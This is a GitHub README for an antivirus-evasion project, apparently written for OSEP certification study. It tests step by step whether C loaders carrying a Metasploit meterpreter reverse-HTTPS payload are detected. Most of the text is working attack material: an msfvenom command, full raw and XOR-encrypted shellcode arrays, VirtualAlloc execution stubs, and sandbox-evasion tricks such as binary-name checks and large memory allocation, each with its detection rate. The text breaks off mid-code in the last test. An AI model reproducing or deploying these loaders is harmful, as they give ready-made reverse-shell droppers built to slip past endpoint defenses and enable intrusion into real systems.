

JASW
=======

**All information and software available on this site is intended for educational purposes only. Use them at your own
discretion, I cannot be held responsible for any damage caused. The opinions expressed here are my own and do not
necessarily reflect those of my employer. Using any of the tools in this repository to attack targets without prior
mutual consent is illegal. It is the responsibility of the end user to obey all applicable local, state and federal
laws. I take no responsibility and am not liable for any misuse or damage caused.**

- I use this repository for my OSEP certification
- Thanks to https://github.com/EnginDemirbilek/Flip
- Thanks to https://github.com/9emin1/charlotte
- Thanks to https://github.com/Arno0x/ShellcodeWrapper
- Thanks to https://github.com/icyguider/Shhhloader


Installation
============

```bash
apt install mingw-w64 g++-mingw-w64-i686-win32 python3 python3-pip
pip install -r requirements.txt
```

Usage
=====


```bash
python3 jasw.py
```

The purpose of this document is to verify the ability of consumer antivirus software to detect a binary incorporating a
meterpreter payload. To do so, I will try different methods described in the ivi PDF (found on wikileaks). Some of these
methods may have become obsolete by antivirus updates since this document was published (well, 2014). However, it is
also possible that some evasion techniques are still effective against current antiviruses. Therefore, it will be
interesting to test these different methods and see if current antiviruses can detect meterpreter. It is indeed quite
likely that most modern antivirus programs are capable of detecting meterpreter (that is, yes), as it is known to be
used in computer pentests or attacks. However, it is important to note that the detection of software as malicious does
not necessarily mean that it will be blocked or removed by the antivirus. It is possible that an antivirus program
detects reverse shell but does not have the ability to remove it.

Test 1 (**Classic payload meterpreter**)
______

- I start my test with a simple binary generated by metasploit.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f exe -o step1.exe
```

Without surprise 50 AV out of 69 detect
it :[Link VirusTotal](https://www.virustotal.com/gui/file/0b8ca18223c52d9e241c928053b07d7c630f7aeb13ceed32cec2b3a02558939d)


The first screenshot is on VirusTotal, the second on Antiscan. I will use antiscan.me from now on. Antiscan is a service
that offers a similar scan to VirusTotal, but uses fewer antivirus vendors. One of the advantages of this service is
that it does not publish the samples it scans, which can be handy if you don't want the binary to be made public. The
detection rate is 19 out of 26 on Antiscan and 50 out of 69 on VirusTotal, the rate is similar.

Test 2 (**C code wrapper**)
------

Metasploit by default generates binaries with signatures known to AVs. Embedding meterpreter shellcode directly into a
script written in C has an impact on how it is detected by antivirus software. It is also possible that the use of
exotic or recent programming languages such as RUST may make detection more difficult for some antivirus programs
because of the way they parse the code. It will be interesting to see how the results of these tests differ from those
obtained previously and to determine whether the integration of shellcode into a C script has an impact on its detection
by antivirus software.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f c
```

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
    unsigned char buf[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
    "\x52\x51\x48\x31\xd2\x56\x65\x48\x8b\x52\x60\x48\x8b\x52"
    "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x4d\x31\xc9\x48\x0f"
    "\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
    "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
    "\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
    "\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
    "\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88"
    "\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
    "\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
    "\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
    "\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
    "\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
    "\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
    "\x4b\xff\xff\xff\x5d\x48\x31\xdb\x53\x49\xbe\x77\x69\x6e"
    "\x69\x6e\x65\x74\x00\x41\x56\x48\x89\xe1\x49\xc7\xc2\x4c"
    "\x77\x26\x07\xff\xd5\x53\x53\x48\x89\xe1\x53\x5a\x4d\x31"
    "\xc0\x4d\x31\xc9\x53\x53\x49\xba\x3a\x56\x79\xa7\x00\x00"
    "\x00\x00\xff\xd5\xe8\x0d\x00\x00\x00\x31\x39\x32\x2e\x31"
    "\x36\x38\x2e\x31\x2e\x32\x36\x00\x5a\x48\x89\xc1\x49\xc7"
    "\xc0\xbb\x01\x00\x00\x4d\x31\xc9\x53\x53\x6a\x03\x53\x49"
    "\xba\x57\x89\x9f\xc6\x00\x00\x00\x00\xff\xd5\xe8\x4d\x00"
    "\x00\x00\x2f\x39\x79\x38\x77\x41\x54\x63\x56\x56\x54\x59"
    "\x2d\x5f\x44\x5f\x2d\x58\x55\x42\x47\x45\x51\x6b\x61\x71"
    "\x43\x34\x77\x33\x6f\x6a\x6c\x61\x68\x31\x32\x56\x4a\x38"
    "\x42\x73\x4c\x43\x42\x51\x32\x6b\x62\x63\x49\x34\x2d\x6e"
    "\x31\x4c\x68\x36\x55\x2d\x42\x4c\x4d\x78\x42\x35\x49\x5a"
    "\x56\x38\x42\x62\x6d\x47\x36\x64\x00\x48\x89\xc1\x53\x5a"
    "\x41\x58\x4d\x31\xc9\x53\x48\xb8\x00\x32\xa8\x84\x00\x00"
    "\x00\x00\x50\x53\x53\x49\xc7\xc2\xeb\x55\x2e\x3b\xff\xd5"
    "\x48\x89\xc6\x6a\x0a\x5f\x48\x89\xf1\x6a\x1f\x5a\x52\x68"
    "\x80\x33\x00\x00\x49\x89\xe0\x6a\x04\x41\x59\x49\xba\x75"
    "\x46\x9e\x86\x00\x00\x00\x00\xff\xd5\x4d\x31\xc0\x53\x5a"
    "\x48\x89\xf1\x4d\x31\xc9\x4d\x31\xc9\x53\x53\x49\xc7\xc2"
    "\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x75\x1f\x48\xc7\xc1\x88"
    "\x13\x00\x00\x49\xba\x44\xf0\x35\xe0\x00\x00\x00\x00\xff"
    "\xd5\x48\xff\xcf\x74\x02\xeb\xaa\xe8\x55\x00\x00\x00\x53"
    "\x59\x6a\x40\x5a\x49\x89\xd1\xc1\xe2\x10\x49\xc7\xc0\x00"
    "\x10\x00\x00\x49\xba\x58\xa4\x53\xe5\x00\x00\x00\x00\xff"
    "\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda"
    "\x49\xc7\xc0\x00\x20\x00\x00\x49\x89\xf9\x49\xba\x12\x96"
    "\x89\xe2\x00\x00\x00\x00\xff\xd5\x48\x83\xc4\x20\x85\xc0"
    "\x74\xb2\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd2\x58\xc3"
    "\x58\x6a\x00\x59\xbb\xe0\x1d\x2a\x0a\x41\x89\xda\xff\xd5";

    void *valloc = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(valloc, buf, sizeof buf);
    ((void(*)())valloc)();
}
```

The detection rate has risen to 9 out of 26, so we can do better.

- [Link Antisan](https://antiscan.me/scan/new/result?id=JZP5rM62ybAI)


Test 3 (**XOR the shellcode**)
------

Antivirus programs detect the shellcode even if it has been embedded in a C script, because the machine code used for
meterpreter itself contains known signatures of antivirus programs. To try to get around this problem, you can XOR the
shellcode before embedding it in the C script. XOR is a simple
encryption operation that can be used to hide the shellcode signatures. However, it is important to note that this
technique can be easily bypassed by antivirus software and does not guarantee
that the binary will remain undetectable. It will be interesting to see if using an XOR on shellcode has an impact on
the binary detection by antivirus software
and to compare the results obtained. In the following steps we will try the techniques mentioned in the pdf to block the
heuristic analysis and thus prevent
the antivirus program from using the deobfuscation routine.

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
           
    char xor_key[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
    char xored_shellcode[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
    char buf[sizeof xored_shellcode];
    
    int i = 0;
    for(int inc=0; inc < sizeof xored_shellcode; inc++) {
        if(i == sizeof xor_key -1) {
            i=0;
        }
        buf[inc] = xored_shellcode[inc] ^ xor_key[i];
        i++;
    }

    void *valoc = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(valoc, buf, sizeof buf);
    ((void(*)())valoc)();
}
```


This may be better, but the detection rate is still high. Before trying the heuristic analysis workarounds mentioned in
the PDF document, I suggest that we try to generate variables with random names. In fact, the C code used by these
examples is very simple, very well known and widely used. By adding random content, the results should be better.


Test 4 (**Check binary name**)
------

it's progressing slowly, let's try to use a simple method to bypass the antivirus. It's rudimentary, but it works.
Heuristic analysis consists of running a program in a sandbox environment to observe its behavior. Antivirus software
can use techniques such as emulation to run the program in a safe environment and then observe how it interacts with the
system. When a program runs in such a sandbox, it no longer has the original name (step4.exe) but a temporary file name.
A simple method is just to check the name of the executable. If the name is different, then the program does nothing,
otherwise it is probably outside this test environment (or renamed by the user :)) so we load meterpreter into memory.

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {

 if (strstr(argv[0], "step4") == NULL) { 
    return 1; 
 }
           
    char xor_key[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
    char xored_shellcode[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
    char buf[sizeof xored_shellcode];
    
    int i = 0;
    for(int inc=0; inc < sizeof xored_shellcode; inc++) {
        if(i == sizeof xor_key -1) {
            i=0;
        }
        buf[inc] = xored_shellcode[inc] ^ xor_key[i];
        i++;
    }

    void *valoc = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(valoc, buf, sizeof buf);
    ((void(*)())valoc)();
}
```


It's much better, only Fortinet detects it.


Test 5 (**Random vars**)
------


Now let's try to generate variables with random names to make sure that the hash is unique. We will keep this code base
for future tests.

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
    if (strstr(argv[0], "step5") == NULL) { 
        return 1; 
    }
    
    char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
    char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
    char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];
    
    int JLLxOyNdJwjKdg = 0;
    for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
        if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
            JLLxOyNdJwjKdg=0;
        }
        bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
        JLLxOyNdJwjKdg++;
    }

    void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
    ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
}
```


:(


Test 6 (**Allocate and fill 100M memory**)
------

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
    char * memdmp = NULL;
    memdmp = (char *) malloc(100000000);
    
    if(memdmp==NULL)
    {
        return 1;
    }
    
    memset(memdmp,00, 100000000);
    free(memdmp);
        
    char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
